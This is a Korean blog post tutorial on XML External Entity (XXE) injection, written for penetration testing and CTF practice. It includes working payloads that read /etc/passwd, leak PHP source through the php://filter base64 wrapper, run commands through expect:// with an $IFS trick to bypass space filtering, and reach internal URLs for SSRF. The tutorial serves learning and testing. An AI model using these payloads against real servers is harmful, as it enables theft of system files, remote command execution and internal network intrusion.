 ```yaml
---

layout: post
title: "XML External Entities(XXE) Injection "
excerpt: "Try to know xxe & use it ~_~"
date: 2020-07-11
categories: [Web]
comments: true 
---
```


이번에는 모의해킹 업무와 ctf에 자주 등장하는데 그간 정리를 안했던 XXE에 대하여 알아보자. 

<h3> 0x0. XML</h3>

XML이란 다른 특수 목적의 마크업 언어를 만드는 용도로 사용된 언어이다. 이를 이용한 XML Entity는 반복적으로 사용되는 문자열이나 특수 문자를 XML문서에서 사용하기 위하여 미리 정의한 것이다. 이는 앰퍼샌드로 시작하고 세미콜론으로 끝난다.

```xml
<simple>&test;</simple>
```

이런 형식의 test가 XML Entity이다.

XML을 내부에 정의한 경우

``` xml-dtd
<!ENTITY name "value">
```

이런 방식으로 정의를 하고, 위에서 말한 방식으로 이용한다.

XML을 외부에 정의한 경우

```xml-dtd
<!ENTITY name SYSTEM "url or file">
```

이렇게 하며  url or file에 입력한 주소의 내용이 그 Entity의 값으로 이용된다.



<h3>0x1. XXE Injection</h3>

위에서 말한 XML Entity를 이용하여 악의적인 공격을 하는 행위를 XXE Injection이라고 하는데, 공격자가 직접 XML Entity를 외부에  정의하여 이를 악용할 수 있다. XML타입의 데이터를 웹을 통해 전송하는데 서버에서 XML외부 엔티티가 실행이 가능하다면 아래와 같이 시행 가능하다.

```xml-dtd
<!DOCTYPE test[
<!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
```

이런식으로 /etc/passwd를 확인하는 xml을 불러와서 공격할 수 있다. 



<h3> 0x2. Tip</h3>

이번에는 xxe공격을 할 때의 팁이나 다른 정보들을 추가하려고 한다.

우선 처음으로는 그냥 dtd를 통하여 내부 파일을 불러오려고 하면 잘 안되는 경우가 있다. 그런 상황에서는 php에 wrapper클래스를 사용하여 base64등의 형태로 인코딩시켜서 출력을 하면 보통의 경우는 잘 된다.

```xml-dtd
<!DOCTYPE test [  
  <!ELEMENT testman ANY >
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
```

이 방법은 xxe를 통한 lfi공격 이외에도 그냥 일반적으로 무언가를 릭해올 때 거의 해당된다.

다음은 xxe를 통하여 RCE를 할 때는 아래와 같이 가능하다. 

```xml-dtd
<!DOCTYPE test [ 
<!ELEMENT testman ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
```

이렇게 하면 php가  id를 실행하게 된다. 하지만 다양한 명령어를 사용할 때 공백이 필요한데 그런 경우에 공백을 넣으면 에러가 발생한다. 

```xml-dtd
<!DOCTYPE test [ 
<!ELEMENT testman ANY >
<!ENTITY xxe SYSTEM "expect://cat$IFS/etc/passwd" >]>
```

 공백에 관한 에러는  $IFS등의 다양한 방법으로 우회를 해주면 된다. 

다음으로는 XXE를 이용한 SSRF이다. 당연히 서버 내부의 권한으로 XML엔티티를 선언하고 실행하는 것이기 때문에 SSRF도 가능하다. 일반적인 사용자의 권한에서는 볼 수 없던 내용도 서버 내부의 권한으로는 가능하다.

```xml-dtd
<!DOCTYPE test [ 
<!ELEMENT testman (#ANY)>
<!ENTITY xxe SYSTEM "https://internal_domain/any.php">]>
```

이렇게 해주면 내부 url에 접근이 가능하다. 또한 추가적으로  curl을 이용하여도 접근이 가능하다.

이외에도 추가적으로 DOS공격이나 다른 인코딩을 사용하여 공격하는 방법등이 있는데 나중에 문제를 풀다가 나온다면 

그때 정리해보겠다.